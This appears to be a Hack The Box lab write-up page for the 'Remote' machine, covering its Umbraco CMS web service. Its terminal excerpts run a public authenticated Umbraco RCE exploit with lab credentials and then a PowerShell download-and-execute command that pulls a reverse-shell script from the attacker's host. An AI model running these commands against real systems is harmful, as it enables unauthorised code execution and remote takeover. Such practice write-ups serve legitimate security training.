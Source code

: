 # 15 - HTTP


# Index page

![](vx_images/5075454178999.png)



# /Contact redirects to a login page

![](vx_images/3903486746522.png)


# Umbraco
![](vx_images/5455995535614.png)


# See `20 - NFS.md` for the username and password



# Code execution
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/remote/exploit]                                                                                                                                          
└──╼ $ searchsploit -m aspx/webapps/49488.py                                                                                                                                                  
  Exploit: Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)                                                                                                                         
      URL: https://www.exploit-db.com/exploits/49488                                                                                                                                          
     Path: /usr/share/exploitdb/exploits/aspx/webapps/49488.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators                                                                                             
                                               
Copied to: /home/user/htb/remote/exploit/49488.py
┌─[user@parrot]─[10.10.14.18]─[~/htb/remote/exploit]
└──╼ $ python3 49488.py -u admin@htb.local -p 'baconandcheese' -i http://10.10.10.180 -c "whoami"
iis apppool\defaultapppool
```



# Shell

```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/remote/exploit]
└──╼ $ python3 49488.py -u admin@htb.local -p 'baconandcheese' -i http://10.10.10.180 -c "powershell" -a "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.18/Invoke-PowerShellTcp.ps1')"
```

* -u username
* -p password
* -i ip
* -c command
* -a arguments


![](vx_images/3385160536411.png)
